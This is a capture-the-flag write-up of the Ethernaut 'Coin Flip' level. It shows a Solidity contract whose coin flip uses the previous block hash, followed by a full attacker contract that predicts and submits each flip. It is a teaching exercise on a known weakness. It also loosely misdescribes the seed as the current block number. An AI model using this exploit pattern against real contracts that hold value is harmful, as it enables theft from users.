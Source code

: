 ## Ethernaut Level 03 - Coin Flip - Write-Up
<!--Authors: OofedUp-->

Difficulty: 3/10

![image](https://i.imgur.com/B9qJ1sF.png)

## Source
```javascript
pragma solidity ^0.4.18;

contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

The goal of this level was to predict 10 coin flips in a row, which are "random", but as we all know, there is no randomness in a blockchain. These kinds of vulnerabilities are called *Entropy Illusion* because something random on the blockchain is truly an illusion.

## Entropy Illusion
The seed of the random algorithm implemented in the smart contract is the current block's number. We can create another smart contract in [Remix](https://remix.ethereum.org) which calculates these "random" values and submits them to the original contract.

Here's the malicious contract that I have created in order to succesfully predict 10 coin flips:

```javascript
pragma solidity ^0.4.18;

contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}

contract EntropyIllusion {
    CoinFlip public main;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    bool public side;
    uint256 lastHash;

    function EntropyIllusion(){
        main = CoinFlip(INSTANCE ADDR);
    }

    function hack() public returns (bool){
          uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;
    main.flip(side);
    return true;
    }

}
```

You just need to call the `EntropyIllusion.hack()` function 10 times and that's it (in my experience the contract sometimes errored out, but just keep going and make sure you check the current streak on the vulnerable contract).

We can check the number of correct flips in a row using this command:

```javascript
contract.consecutiveWins()
```

After we have 10 correct flips, we can submit the contract:

![image](https://i.imgur.com/5g8g6iD.png)
